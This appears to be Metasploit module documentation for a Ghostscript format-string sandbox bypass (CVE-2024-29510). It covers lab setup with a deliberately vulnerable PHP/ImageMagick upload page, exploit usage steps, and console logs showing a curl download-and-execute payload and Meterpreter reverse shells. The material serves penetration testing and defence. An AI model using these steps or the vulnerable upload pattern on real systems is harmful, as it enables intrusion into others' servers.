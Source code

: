 ## Vulnerable Application

This module exploits a format string vulnerability in Ghostscript versions before 10.03.1 to achieve a SAFER sandbox bypass and execute arbitrary commands. This vulnerability is reachable via libraries such as ImageMagick, which is often used by web applications and other services to preview or convert documents.

This module will generate a Encapsulated PostScript (EPS) file that embeds the selected payload. This file can be consumed by any service using a vulnerable version of Ghostscript under the hood.

### Installation
#### With standalone Ghostscript
Download the source files from https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/ and build Ghostscript:
```
wget https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/download/gs10030/ghostscript-10.03.0.tar.gz
tar xzvf ghostscript-10.03.0.tar.gz
cd ghostscript-10.03.0
./configure
make
```
Then, use the `bin/gs` directly.

#### With ImageMagick
Follow the steps to build Ghostscript but run an additional `make install` to make sure the binaries are copied at the right location in the system.
Download ImageMagick source files from https://github.com/ImageMagick/ImageMagick/archive/ and build it:
```shell
./configure --prefix=/usr --with-gslib --disable-dependency-tracking
make
make install
ldconfig /usr/lib
```
Then, use `identify` or `convert` directly.

#### With a PHP application using ImageMagick on Docker
Create the following `Dockerfile` (mostly taken from the vulhub projects [1](https://github.com/vulhub/vulhub/blob/1d932c52b9eb257de8c8a20ba7696a598157ef8f/base/imagemagick/7.1.1-17/Dockerfile) and [2](https://github.com/vulhub/vulhub/blob/master/ghostscript/CVE-2019-6116)):
```dockerfile
FROM debian:bullseye

RUN set -ex \
    && apt-get update \
    && apt-get install -y --no-install-recommends build-essential automake autoconf libtool libltdl-dev wget ca-certificates libpng-dev libjpeg62-turbo-dev \
        libfontconfig1-dev libfreetype6-dev librsvg2-dev libxml2-dev zlib1g-dev libgif-dev php-cli curl \
	&& apt-get purge -y --auto-remove -o APT::AutoRemove::RecommendsImportant=false \
	&& rm -rf /var/lib/apt/lists/*

ARG GS_URL=https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/download/gs10030/ghostscript-10.03.0.tar.gz
RUN set -ex \
    && wget -qO- ${GS_URL} | tar xz --strip-components=1 -C /usr/src \
    && cd /usr/src \
    && ./configure \
    && make \
    && make install \
    && rm -rf /usr/src/*

ARG IM_VERSION=7.1.1-34
RUN set -ex \
    && wget -qO- https://github.com/ImageMagick/ImageMagick/archive/${IM_VERSION}.tar.gz \
        | tar xz --strip-components=1 -C /usr/src \
    && cd /usr/src \
    && ./configure --prefix=/usr --with-gslib --disable-dependency-tracking \
    && make \
    && make install \
    && ldconfig /usr/lib \
    && rm -rf /usr/src/*

RUN mkdir -p /var/www/html \
    && echo "<?php \n \
  if (!empty(\$_FILES)): \n \
  \$ext = pathinfo(\$_FILES['file_upload']['name'], PATHINFO_EXTENSION); \n \
  \$size = shell_exec(\"identify -format '%w x %h' eps:{\$_FILES['file_upload']['tmp_name']}\"); \n \
  echo \"Image size is: \$size\"; \n \
  else: \n \
  ?> \n \
  <form method=\"post\" enctype=\"multipart/form-data\"> \n \
      File: <input type=\"file\" name=\"file_upload\"> \n \
      <input type=\"submit\"> \n \
  </form> \n \
  <?php \n \
  endif;" > /var/www/html/index.php

CMD ["php", "-t","/var/www/html", "-S", "0.0.0.0:8080"]
```

Build the docker image:
```shell
build -t php_magick_gs:10.03.0 .
```

Run it:
```shell
docker run --rm -p8888:8080 php_magick_gs:10.03.0
```
Access the example web page at http://127.0.0.1:8888 and upload the generated `.eps` file.

## Verification Steps
1. Install the application
1. Start msfconsole
1. Do: `use multi/fileformat/ghostscript_format_string_cve_2024_29510`
1. Do: `exploit lhost=<local host address>`
1. Start a handler for the seclected payload
1. Have the generated Postscript processed by a vulnerable version of Ghostscript
1. You should get a shell.

## Options

### FILENAME
The name of the Encapsulated PostScript (EPS) file that will be generated by this module. Default is `msf.eps`.

### INDEX_OUT_PTR
This module will exploit a format string vulnerability to update the boolean field (`path_control_active`) in memory and disable the `-dSAFER` security sandbox to enable code execution. This field is stored in a specific data structure which can be accessed from a pointer received by the function calling the vulnerable `gs_snprintf()` function. The exploit will dereference this pointer multiple times to reach this field.
This option specify the index of this pointer (`gp_file *out`) on the stack. The default is `5`, which seems to work most of the time. Note that when Ghostscript is installed on a Docker instance, this index seems to be `6`. That being said, if the exploit doesn't work, try with different index value (usually `4`, `5` or `6`).


## Scenarios

### Ghostscript version 10.03.0
Generate the `.eps` files:
```
msf exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > exploit verbose=true lhost=192.168.1.113

[*] Command to run on remote host: curl -so ./kmMJykHyqUiQ http://192.168.1.113:8080/QAeBnT-6WHJiW5MJjwMrfA; chmod +x ./kmMJykHyqUiQ; ./kmMJykHyqUiQ &
[+] msf.eps stored at /home/n00tmeg/.msf4/local/msf.eps
[+] You will need to start a handler for the selected payload first.
[+] Example usage with Ghostscript: gs -q -dSAFER -dBATCH -dNODISPLAY msf.eps
[+] Example usage with ImageMagick: identify msf.eps
```

Start a hander:
```
msf exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > use cmd/linux/http/x64/meterpreter_reverse_tcp
msf payload(cmd/linux/http/x64/meterpreter_reverse_tcp) > set lhost 192.168.1.113
lhost => 192.168.1.113
msf payload(cmd/linux/http/x64/meterpreter_reverse_tcp) > to_handler 
[*] Payload Handler Started as Job 0
```

Execute Ghostscript directly:
```shell
./gs -q -dSAFER -dBATCH -dNODISPLAY ~/.msf4/local/msf.eps
```

Get a Meterpreter session:
```
msf exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > [*] Meterpreter session 6 opened (192.168.1.113:4444 -> 192.168.1.113:56786) at 2024-07-16 11:00:59 +0200

msf exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > sessions -1
[*] Starting interaction with 6...

meterpreter > getuid
Server username: n00tmeg
meterpreter > sysinfo
Computer     : 192.168.1.113
OS           : Arch rolling (Linux 6.9.7-arch1-1)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### ImageMagick version 7.1.1-34 on Docker
```
msf exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > exploit verbose=true lhost=192.168.1.113 index_out_ptr=6 filename=msf.eps

[*] Command to run on remote host: curl -so ./GzRgKQokL http://192.168.1.113:8080/QAeBnT-6WHJiW5MJjwMrfA; chmod +x ./GzRgKQokL; ./GzRgKQokL &
[+] msf.eps stored at /home/n00tmeg/.msf4/local/msf.eps
[+] You will need to start a handler for the selected payload first.
[+] Example usage with Ghostscript: gs -q -dSAFER -dBATCH -dNODISPLAY msf.eps
[+] Example usage with ImageMagick: identify msf.eps
```

Start a hander:
```
msf exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > use cmd/linux/http/x64/meterpreter_reverse_tcp
msf payload(cmd/linux/http/x64/meterpreter_reverse_tcp) > set lhost 192.168.1.113
lhost => 192.168.1.113
msf payload(cmd/linux/http/x64/meterpreter_reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0
```

Follow the `PHP application using ImageMagick on Docker` installation steps and upload the generated `.eps` file from http://127.0.0.1:8888.

Get a Meterpreter session:
```
msf exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > [*] Meterpreter session 3 opened (192.168.1.113:4444 -> 172.17.0.3:45102) at 2024-07-16 14:46:55 +0200

msf exploit(multi/fileformat/ghostscript_format_string_cve_2024_29510) > sessions -1
[*] Starting interaction with 3...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Debian 11.10 (Linux 6.9.7-arch1-1)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

